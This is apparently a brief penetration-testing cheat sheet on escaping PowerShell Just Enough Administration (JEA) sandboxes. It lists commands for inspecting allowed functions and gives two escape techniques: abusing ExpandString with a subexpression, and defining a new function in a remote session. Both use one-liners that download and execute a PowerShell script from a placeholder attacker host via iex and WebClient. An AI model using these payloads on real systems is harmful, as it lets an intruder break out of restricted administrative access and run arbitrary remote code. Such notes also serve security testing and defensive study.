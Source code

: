 # Just Enough Administration (JEA) Escape

### 1) Abuse an allowed function

##### Look at allowed functions

    Get-Command

##### Look at the function code

    (Get-Command <function>).Definition

##### Or

    gcm <function> -show

For example if it is possible to control the $param parameter here 

    $ExecutionContext.InvokeCommand.ExpandString($param)

it is possible to execute some code by passing this as argument : 

    '$(powershell.exe -c "iEx (New-Object System.Net.WebClient).DownloadString(''http://attacker_IP/Invoke-HelloWorld.ps1'')")'

### 2) Function Creation

If the JEA allowed to create a new function it can be abused

    Invoke-Command -Session $sess -ScriptBlock {function blackwasp {iex (new-object net.webclient).downloadstring('http://attacker_IP/Invoke-HelloWorld.ps1')}}
    Invoke-Command -Session $sess -ScriptBlock {blackwasp}

### 3) With another WinRM client

Run the specific python script (Scripts directory in the repo to sometimes bypass the JEA)
